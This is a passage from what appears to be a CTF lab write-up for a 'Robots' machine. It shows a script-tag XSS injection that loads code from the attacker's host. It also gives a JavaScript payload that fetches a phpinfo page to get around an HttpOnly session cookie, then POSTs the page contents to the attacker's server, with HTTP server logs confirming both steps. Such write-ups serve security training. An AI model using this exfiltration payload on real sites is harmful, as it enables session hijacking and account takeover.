 ```html
<script src="http://10.8.64.79/xss.js"></script>
```

![Robots Thm Register Xss](robots_thm_register_xss.webp){: width="1200" height="600"}

Shortly after, we observe a request being made to our server for `xss.js`, indicating that the payload has successfully executed:

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.78.224 - - [15/Mar/2025 15:03:04] code 404, message File not found
10.10.78.224 - - [15/Mar/2025 15:03:04] "GET /xss.js HTTP/1.1" 404 -
```

Checking the cookies for the server, we notice that the `PHPSESSID` cookie is **HttpOnly**, meaning we cannot directly steal cookies using `document.cookie`.

![Robots Thm Cookie](robots_thm_cookie.webp){: width="1200" height="600"}

However, revisiting the `/harm/to/self/server_info.php` endpoint, we see that **phpinfo()** prints out the session details, including the `PHPSESSID` cookie.

![Robots Thm Phpinfo Cookie](robots_thm_phpinfo_cookie.webp){: width="1200" height="600"}

So, instead of stealing the cookies directly, we can modify our **XSS payload** to request `/harm/to/self/server_info.php` and send its contents back to our server:

```js
async function exfil() {
    const response = await fetch('/harm/to/self/server_info.php');
    const text = await response.text();

    await fetch('http://10.8.64.79:81/exfil', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: `data=${btoa(text)}`
    });
}

exfil();
```
{: file="xss.js" }

After modifying `xss.js`, we first observe the request being made to our server for the `xss.js` file:

```console
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.78.224 - - [15/Mar/2025 15:11:38] "GET /xss.js HTTP/1.1" 200 -
```
